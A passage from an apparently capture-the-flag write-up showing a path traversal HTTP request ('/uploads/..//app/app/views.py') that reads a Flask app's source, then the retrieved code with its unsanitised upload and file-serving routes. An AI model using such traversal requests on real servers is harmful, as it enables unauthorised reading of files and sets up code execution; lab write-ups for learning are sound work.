 ## Bonus - Using The Path Traversal To Get The Sell

When I did the box, I did a quick attempt to get a shell by uploading a Python file. I quickly pivoted to extracting the PIN to get the shell through the console instead. When I was done with the box, I decided to try the upload again.

I started by extracting the `views.py` file from the server to be sure I had the live version.

```http
GET /uploads/..//app/app/views.py HTTP/1.1
Host: target.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/download')
def download():
    return send_file(os.path.join(os.getcwd(), "app", "static", "source.zip"))


@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```
